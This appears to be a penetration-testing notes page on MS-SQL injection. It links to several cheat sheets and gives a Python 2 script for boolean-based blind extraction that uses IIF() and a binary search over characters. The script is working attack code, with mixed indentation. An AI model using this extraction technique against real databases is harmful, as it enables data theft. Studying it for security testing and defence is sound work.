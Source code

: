 # MS-SQL Injection

## Cheatsheets

* [https://www.perspectiverisk.com/mssql-practical-injection-cheat-sheet/](https://www.perspectiverisk.com/mssql-practical-injection-cheat-sheet/)
* [http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
* 
## Error Based SQL Injection

[https://www.exploit-db.com/docs/english/44348-error-based-sql-injection-in-order-by-clause-\(mssql\).pdf](https://www.exploit-db.com/docs/english/44348-error-based-sql-injection-in-order-by-clause-%28mssql%29.pdf)

## Blind SQL Injection

### Boolean Based Blind

In the case of boolean based blind we can use the [IIF\(\)](https://docs.microsoft.com/en-us/sql/t-sql/functions/logical-functions-iif-transact-sql?view=sql-server-2017) function to extract data.  Say our injection point required an integer placed at a specific point such as:

```text
demo.asp?id=1
```

If we can't inject via stacked queries or other methods we can execute basic queries by utilizing the `IIF` Boolean result which is converted to an integer to guarantee execution.  This assumes a function `exploit` which returns a True or False response:

```python
def binary_search(payload):
	first = 0
	last = 127
	while first <= last:
		i = (first+last)/2
		eq = 'IIF({0}={1},1,1/0)'.format(payload,i)
		gt = 'IIF({0}<{1},1,1/0)'.format(payload,i)
		lt = 'IIF({0}>{1},1,1/0)'.format(payload,i)
		if exploit(eq) == True:
			return i
		elif exploit(gt) == True:
			last = i - 1
		elif exploit(lt) == True:
			first = i +1
		else:
			return 0

def leak_string(query, length=0):
	if length == 0:
		while True:
			payload = 'IIF(LEN({0})>{1},1,1/0)'.format(query, length)
                	if exploit(payload) == False:
                        	break
                	length += 1
	print '[+] Length of {0}'.format(length)
	name = ''
	for i in range(1, length+1):
		print name
		name += chr(binary_search('ASCII(SUBSTRING({0},{1},1))'.format(query,i)))
	return name
```



